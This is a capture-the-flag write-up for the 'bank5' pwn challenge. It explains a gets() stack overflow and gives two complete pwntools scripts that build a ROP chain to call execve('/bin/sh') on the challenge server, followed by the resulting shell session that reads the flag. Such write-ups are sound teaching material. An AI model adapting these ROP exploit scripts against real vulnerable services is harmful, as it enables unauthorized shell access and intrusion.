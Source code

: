 ## bank5 (200 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30206

author: xikhud
```

Decompiling `bank5` with IDA, we see that `getFlag` no longer exists. NX is also enabled, so we can not inject shellcode. However, as `bank5` doesn't have PIE enabled and uses gets (which accepts null bytes) to read our input, we can use ROP.

![](checksec.png)

Our goal is to call `execve("/bin/sh", NULL, NULL)`. We need to setup the registers as follows:

```
EAX = 11 - The execve syscall number
EBX = Address in memory of the string "/bin/sh"
ECX = NULL
EDX = NULL
```

`/bin/sh` doesn't exist in `bank5`, so we also need to put it in memory.

```py
from pwn import *

INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
MOV_EDX_INTO_EAX_ADDR = 0x0809cd34  # mov dword ptr [eax], edx ; ret
SAFE_ADDR = 0x080da320  # .bss section
EXEC = '/bin/sh\x00'
EXEC = [EXEC[:4], EXEC[4:]]

def write_mem(value, addr):
  if type(value) == int:
    value = p32(value)
  if type(value) == str:
    value = value.encode('utf-8')
  payload = p32(POP_EDX_ADDR) + value
  payload += p32(POP_EAX_ADDR) + p32(addr)
  payload += p32(MOV_EDX_INTO_EAX_ADDR)
  return payload

# Write EXEC into SAFE_ADDR
payload = b'A' * 80  # padding
payload += write_mem(EXEC[0], SAFE_ADDR)
payload += write_mem(EXEC[1], SAFE_ADDR + 4)

# Populate registers for the syscall
payload += p32(POP_EAX_ADDR) + p32(11)
payload += p32(POP_ECX_EBX_ADDR) + p32(0) + p32(SAFE_ADDR)
payload += p32(POP_EDX_ADDR) + p32(0)

# Syscall
payload += p32(INT_0x80_ADDR)

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.interactive()
```

```
$ ls
bank5
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{rop_and_shellcode}
```

**Flag:** `HCMUS-CTF{rop_and_shellcode}`

### Appendix

We can also call `gets` to write `/bin/sh`.

```py
from pwn import *

elf = ELF('bank5')

GETS_ADDR = elf.symbols['gets']
INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
SAFE_ADDR = 0x080da320  # .bss section

# Use gets to write "/bin/sh" to SAFE_ADDR
payload = b'A' * 80  # padding
payload += p32(GETS_ADDR)
payload += p32(POP_EAX_ADDR)
payload += p32(SAFE_ADDR)

# Populate registers for the syscall
payload += p32(POP_EAX_ADDR) + p32(11)
payload += p32(POP_ECX_EBX_ADDR) + p32(0) + p32(SAFE_ADDR)
payload += p32(POP_EDX_ADDR) + p32(0)

# Syscall
payload += p32(INT_0x80_ADDR)

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.sendline('/bin/sh\x00')
conn.interactive()
```
